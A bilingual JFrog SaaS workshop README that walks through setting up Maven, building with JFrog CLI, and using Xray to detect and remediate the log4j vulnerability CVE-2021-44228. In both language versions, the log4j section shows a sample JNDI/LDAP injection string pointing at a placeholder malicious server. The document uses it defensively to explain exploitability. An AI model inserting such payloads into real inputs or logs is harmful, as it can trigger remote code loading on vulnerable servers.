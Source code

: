 <details>
<summary>English</summary>

## Course Objectives

Welcome to the **JFrog SaaS Trial Workshop!** 🎓  
This workshop aims to help you get started with JFrog SaaS and practice building a Maven project. By the end of this workshop, you will be able to:
- Apply for a JFrog SaaS trial and set up your environment.
- Clone and configure a Maven project.
- Build and deploy the project using JFrog CLI.
- Understand and remediate security vulnerabilities using JFrog Xray.

## 📝 Prerequisites

### JDK 17 Installation
1. **Install JDK**
   - Download and install JDK from [OpenJDK](https://jdk.java.net/archive/)

### Set Environment Variables

#### JAVA_HOME
1. Open System Properties (Win + S → "Environment Variables")
2. Click "Environment Variables" → "New" under System variables
3. Set:
   ```
   Variable name: JAVA_HOME
   Variable value: C:\Program Files\Java\jdk-17
   ```
4. In System variables, select "Path" → "Edit"
5. Click "New" and add:
   ```
   %JAVA_HOME%\bin
   ```
6. Click "OK" to save

### Verify Installation
   ```bash
   # Check Java version
   java -version
   ```
   Expected output:
   ```
   openjdk version "17.0.2" 2022-01-18
   OpenJDK Runtime Environment (build 17.0.2+8)
   OpenJDK 64-Bit Server VM (build 17.0.2+8, mixed mode, sharing)
   ```

### Maven 3.6.3
1️⃣ **Download Maven**
   - Go to [Apache Maven download page](https://archive.apache.org/dist/maven/maven-3/3.6.3/binaries/apache-maven-3.6.3-bin.zip )
   - Download the Binary zip archive (e.g., `apache-maven-3.6.3-bin.zip`)
2️⃣ **Extract Maven**
   - Extract the downloaded ZIP file to a directory, e.g.:
     ```
     C:\Program Files\Apache\Maven
     ```
   - Your Maven folder structure should look like:
     ```
     C:\Program Files\Apache\Maven\apache-maven-3.6.3
     ```
#### MAVEN_HOME Environment variables
1. In System variables, click "New"
2. Set:
   ```
   Variable name: MAVEN_HOME
   Variable value: C:\Program Files\Apache\Maven\apache-maven-3.6.3
   ```
3. In "Path" variable, click "Edit"
4. Click "New" and add:
   ```
   %MAVEN_HOME%\bin
   ```
5. Click "OK" on all windows to save

> **Note:** After setting environment variables, you need to open a new Command Prompt for the changes to take effect.

#### Verify Installation
   ```bash
   # Open a new Command Prompt and run:
   mvn -version
   ```
   Expected output:
   ```
   Apache Maven 3.6.3 (...)
   Maven home: C:\Program Files\Apache\Maven\apache-maven-3.6.3
   Java version: 17.0.2, vendor: Oracle Corporation
   Java home: C:\Program Files\Java\jdk-17
   Default locale: en_US, platform encoding: UTF-8
   OS name: "windows 10", version: "10.0", arch: "amd64", family: "windows"
   ```

## 🚀 Getting Started

### 1. Apply for JFrog SaaS Trial
1. [Apply for JFrog SaaS Trial](https://jfrog.com/start-free/)  
   Select "14-Day Free Trial", it will give you your own JFrog Platform.
   ![alt text](images/trial.png)

2. **Select AWS Region**
   - Choose either AWS Singapore or Tokyo region
   - This will provide better network performance for users in Asia
   - The region selection is available during the trial signup process

3. You will get an email containing the login credentials for the JFrog platform

### 2. Clone the Project
```bash
git clone https://github.com/JFrogChina/jfrog-poc-samples.git
cd jfrog-poc-samples/maven-sample
```

### 3. Create Maven Repositories
![img_6.png](images/img_6.png)
1. Log in to JFrog SaaS Platform
2. Click **Quick Repository Creation** (top-right)
3. Select **Maven** and create:
   - Local Repo: `sample-libs-snapshot-local` `sample-libs-release-local`
   - Remote Repo: `sample-maven-remote`
   - Virtual Repo: `sample-libs-snapshot` `sample-libs-release`

### 4. Configure JFrog CLI
1. [Download JFrog CLI](https://jfrog.com/getcli/)
2. Configure your environment:
   ```shell
   jf c add saas
   ```
   Follow prompts to enter:
   - JFrog Platform URL: `https://<YOUR_DOMAIN>.jfrog.io`
   - username
   - password or Reference Token (from Profile → Edit Profile → Generate an Identity Token)

### 5. Configure Maven
```shell
cd maven-sample
jf mvnc
```
This generates a `.jfrog/projects/maven.yaml` pointing to your SaaS repositories.

### 6. Build and Deploy
```shell
jf mvn clean install -f pom.xml --build-name=sample-maven-build --build-number=1
jf mvn deploy --build-name=sample-maven-build --build-number=1
jf rt bp sample-maven-build 1
```

### 7. Verify Deployment
- Check **Artifactory → Artifacts** for deployed files
- View build info in **Builds** section

### 8. Enable Xray Scanning
1. Go to **JFrog Xray → Index Resource**
2. Add to watch:
   - Repositories: `sample-libs-snapshot-local` `sample-libs-release-local`
   - Builds: `sample-maven-build`

### Understanding log4j Vulnerability
The log4j vulnerability (CVE-2021-44228) is detected because your project uses log4j-core 2.14.0. However, it's only exploitable when:

1. Using vulnerable logging patterns:
   ```java
   // Vulnerable
   logger.info("${jndi:ldap://malicious-server/exploit}");
   
   // Safe
   logger.info("User logged in: {}", username);
   ```

2. **AND** when:
   - Logging user-controlled input
   - Input contains `${jndi:ldap://...}` pattern
   - Application has network access to malicious server

This explains why Xray shows many false positives - vulnerabilities exist in code but aren't exploitable in your use case.

### 9. Remediate log4j Vulnerability

#### 9.1 Review Vulnerability
JFrog Advanced Security has identified this log4j package as a true positive. You can view the detailed evidence in the security report.
![img_1.png](images/img_1.png)

#### Review the False Positive Results
![img_5.png](images/img_5.png)
> **86% of critical/high vulnerabilities are false positives**

![img_4.png](images/img_4.png)

#### 9.2 Block Vulnerable Version
![img_7.png](images/img_7.png)
1. **Create Block Condition:**  
   Administrator → Curation Settings → Create Condition  
   ![img.png](images/img.png)

2. **Create Policy:**  
   ![img_2.png](images/img_2.png)

3. **Clean Cache:**
   ```bash
   rm -rf ~/.m2/repository/org/apache/logging/log4j/*
   ```

4. **Verify Block:**
   ```shell
   [main] ERROR org.apache.maven.cli.MavenCli - Failed to execute goal on project app-boot: Could not resolve dependencies for project com.example.jfrog:app-boot:war:1.0.2: Could not transfer artifact org.apache.logging.log4j:log4j-core:jar:2.14.0 from/to artifactory-release (https://demo.jfrogchina.com/artifactory/alex-maven): authorization failed for https://demo.jfrogchina.com/artifactory/alex-maven/org/apache/logging/log4j/log4j-core/2.14.0/log4j-core-2.14.0.jar, status: 403 Forbidden -> [Help 1]
   ```
   ![img_3.png](images/img_3.png)

5. **Fix: Update log4j Version**
   ```xml
   <dependency>
       <groupId>org.apache.logging.log4j</groupId>
       <artifactId>log4j-core</artifactId>
       <version>2.17.1</version>
   </dependency>
   ```

6. **Rebuild:**
   ```shell
   jf mvn clean
   jf mvn deploy --build-name=sample-maven-build --build-number=2
   jf rt bp sample-maven-build 2
   ```

The build should be successful and the issue was fixed.

7. **Analysis of Vulnerability Fixing Trends:**
Platform → Xray → Scan List → Builds
![alt text](images/buildList.png)

The build should complete successfully, confirming that the security issue has been fixed.

> **Happy building and stay secure! 🚀**

</details>

<details>
<summary>繁體中文</summary>

## 课程目标
歡迎參加 **JFrog SaaS 試用工作坊！** 🎓  
本工作坊旨在幫助您開始使用 JFrog SaaS 並練習構建 Maven 項目。在本次工作坊結束時，您將能夠：
- 申請 JFrog SaaS 試用並設置您的環境。
- 克隆並配置 Maven 項目。
- 使用 JFrog CLI 構建和部署項目。
- 使用 JFrog Xray 理解和修復安全漏洞。

## 📝 前置需求

### JDK 17 安裝
1. **安裝 JDK**
   - 從 [OpenJDK](https://jdk.java.net/archive/) 下載並安裝 JDK

### 設置環境變數

#### JAVA_HOME
1. 打開系統屬性（Win + S → "環境變數"）
2. 點擊"環境變數" → 在系統變數下點擊"新建"
3. 設置：
   ```
   變數名稱：JAVA_HOME
   變數值：C:\Program Files\Java\jdk-17
   ```
4. 在系統變數中，選擇"Path" → "編輯"
5. 點擊"新建"並添加：
   ```
   %JAVA_HOME%\bin
   ```
6. 點擊"確定"保存

### 驗證安裝
   ```bash
   # 檢查 Java 版本
   java -version
   ```
   預期輸出：
   ```
   openjdk version "17.0.2" 2022-01-18
   OpenJDK Runtime Environment (build 17.0.2+8)
   OpenJDK 64-Bit Server VM (build 17.0.2+8, mixed mode, sharing)
   ```

### Maven 3.6.3
1️⃣ **下載 Maven**
   - 訪問 [Apache Maven 下載頁面](https://archive.apache.org/dist/maven/maven-3/3.6.3/binaries/apache-maven-3.6.3-bin.zip )
   - 下載二進制 zip 檔案（例如：`apache-maven-3.6.3-bin.zip`）
2️⃣ **解壓 Maven**
   - 將下載的 ZIP 檔案解壓到目錄，例如：
     ```
     C:\Program Files\Apache\Maven
     ```
   - 您的 Maven 資料夾結構應該如下：
     ```
     C:\Program Files\Apache\Maven\apache-maven-3.6.3
     ```
#### MAVEN_HOME 環境變數
1. 在系統變數中，點擊"新建"
2. 設置：
   ```
   變數名稱：MAVEN_HOME
   變數值：C:\Program Files\Apache\Maven\apache-maven-3.6.3
   ```
3. 在"Path"變數，點擊"編輯"
4. 點擊"新建"並添加：
   ```
   %MAVEN_HOME%\bin
   ```
5. 點擊所有視窗的"確定"保存

> **注意：** 設置環境變數後，您需要打開新的命令提示字元才能使更改生效。

#### 驗證安裝
   ```bash
   # 打開新的命令提示字元並運行：
   mvn -version
   ```
   預期輸出：
   ```
   Apache Maven 3.6.3 (...)
   Maven home: C:\Program Files\Apache\Maven\apache-maven-3.6.3
   Java version: 17.0.2, vendor: Oracle Corporation
   Java home: C:\Program Files\Java\jdk-17
   Default locale: en_US, platform encoding: UTF-8
   OS name: "windows 10", version: "10.0", arch: "amd64", family: "windows"
   ```

## 🚀 開始使用

### 1. 申請 JFrog SaaS 試用
1. [申請 JFrog SaaS 試用](https://jfrog.com/start-free/)  
   選擇"14 天免費試用"，它將為您提供自己的 JFrog 平台。
   ![alt text](images/trial.png)

2. **選擇 AWS 區域**
   - 選擇 AWS 新加坡或東京區域
   - 這將為亞洲用戶提供更好的網絡性能
   - 區域選擇在試用註冊過程中可用

3. 您將收到一封包含 JFrog 平台登入憑證的電子郵件

### 2. 克隆項目
```bash
git clone https://github.com/JFrogChina/jfrog-poc-samples.git
cd jfrog-poc-samples/maven-sample
```

### 3. 創建 Maven 倉庫
![img_6.png](images/img_6.png)
1. 登入 JFrog SaaS 平台
2. 點擊**快速倉庫創建**（右上角）
3. 選擇 **Maven** 並創建：
   - 本地倉庫：`sample-libs-snapshot-local` `sample-libs-release-local`
   - 遠程倉庫：`sample-maven-remote`
   - 虛擬倉庫：`sample-libs-snapshot` `sample-libs-release`

### 4. 配置 JFrog CLI
1. [下載 JFrog CLI](https://jfrog.com/getcli/)
2. 配置您的環境：
   ```shell
   jf c add saas
   ```
   按照提示輸入：
   - JFrog 平台 URL：`https://<YOUR_DOMAIN>.jfrog.io`
   - 用戶名
   - 密碼或參考令牌（從個人資料 → 編輯個人資料 → 生成身份令牌）

### 5. 配置 Maven
```shell
cd maven-sample
jf mvnc
```
這將生成指向您的 SaaS 倉庫的 `.jfrog/projects/maven.yaml`。

### 6. 構建和部署
```shell
jf mvn clean install -f pom.xml --build-name=sample-maven-build --build-number=1
jf mvn deploy --build-name=sample-maven-build --build-number=1
jf rt bp sample-maven-build 1
```

### 7. 驗證部署
- 在 **Artifactory → Artifacts** 中檢查已部署的文件
- 在 **Builds** 部分查看構建信息

### 8. 啟用 Xray 掃描
1. 轉到 **JFrog Xray → Index Resource**
2. 添加到監視：
   - 倉庫：`sample-libs-snapshot-local` `sample-libs-release-local`
   - 構建：`sample-maven-build`

### 了解 log4j 漏洞
檢測到 log4j 漏洞（CVE-2021-44228）是因為您的項目使用了 log4j-core 2.14.0。但是，只有在以下情況下才會被利用：

1. 使用易受攻擊的日誌模式：
   ```java
   // 易受攻擊
   logger.info("${jndi:ldap://malicious-server/exploit}");
   
   // 安全
   logger.info("User logged in: {}", username);
   ```

2. **並且**當：
   - 記錄用戶控制的輸入
   - 輸入包含 `${jndi:ldap://...}` 模式
   - 應用程序可以訪問惡意服務器

這解釋了為什麼 Xray 顯示許多誤報 - 代碼中存在漏洞，但在您的使用場景中無法被利用。

### 9. 修復 log4j 漏洞

#### 9.1 審查漏洞
JFrog 高級安全已將此 log4j 包識別為真實漏洞。您可以在安全報告中查看詳細證據。
![img_1.png](images/img_1.png)

#### 審查誤報結果
![img_5.png](images/img_5.png)
> **86% 的嚴重/高風險漏洞是誤報**

![img_4.png](images/img_4.png)

#### 9.2 阻止易受攻擊的版本
![img_7.png](images/img_7.png)
1. **創建阻止條件：**  
   管理員 → 策展設置 → 創建條件  
   ![img.png](images/img.png)

2. **創建策略：**  
   ![img_2.png](images/img_2.png)

3. **清理緩存：**
   ```bash
   rm -rf ~/.m2/repository/org/apache/logging/log4j/*
   ```

4. **驗證阻止：**
   ```shell
   [main] ERROR org.apache.maven.cli.MavenCli - Failed to execute goal on project app-boot: Could not resolve dependencies for project com.example.jfrog:app-boot:war:1.0.2: Could not transfer artifact org.apache.logging.log4j:log4j-core:jar:2.14.0 from/to artifactory-release (https://demo.jfrogchina.com/artifactory/alex-maven): authorization failed for https://demo.jfrogchina.com/artifactory/alex-maven/org/apache/logging/log4j/log4j-core/2.14.0/log4j-core-2.14.0.jar, status: 403 Forbidden -> [Help 1]
   ```
   ![img_3.png](images/img_3.png)

5. **修復：更新 log4j 版本**
   ```xml
   <dependency>
       <groupId>org.apache.logging.log4j</groupId>
       <artifactId>log4j-core</artifactId>
       <version>2.17.1</version>
   </dependency>
   ```

6. **重新構建：**
   ```shell
   jf mvn clean
   jf mvn deploy --build-name=sample-maven-build --build-number=2
   jf rt bp sample-maven-build 2
   ```

構建應該成功，問題已修復。

7. **漏洞修復趨勢分析：**
平台 → Xray → 掃描列表 → 構建
![alt text](images/buildList.png)

構建應該成功完成，確認安全問題已修復。

> **祝您構建愉快，保持安全！🚀**

</details>